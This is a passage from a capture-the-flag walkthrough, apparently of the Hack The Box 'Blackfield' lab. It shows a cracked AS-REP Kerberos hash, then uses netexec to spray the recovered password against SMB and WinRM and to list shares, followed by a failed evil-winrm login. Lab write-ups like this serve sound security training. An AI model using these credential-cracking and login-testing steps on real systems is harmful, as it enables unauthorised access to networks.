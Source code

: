 `john --show ./asrep_hash.txt`:
```
$krb5asrep$support@BLACKFIELD.LOCAL:#00^BlackKnight ←

1 password hash cracked, 0 left
```

`netexec smb 10.10.10.192 -u 'support' -p '#00^BlackKnight'`:
```
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight ←
```

`netexec smb 10.10.10.192 -u 'support' -p '#00^BlackKnight' --shares`:
```
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 
SMB         10.10.10.192    445    DC01             [*] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic                        Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.10.192    445    DC01             profiles$       READ            
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share
```

`netexec winrm 10.10.10.192 -u 'support' -p '#00^BlackKnight'`:
```
WINRM       10.10.10.192    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
WINRM       10.10.10.192    5985   DC01             [-] BLACKFIELD.local\support:#00^BlackKnight
```
❌

`evil-winrm -i 10.10.10.192 -u 'support' -p '#00^BlackKnight'`:
```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
                                        
Error: Exiting with code 1
```
❌
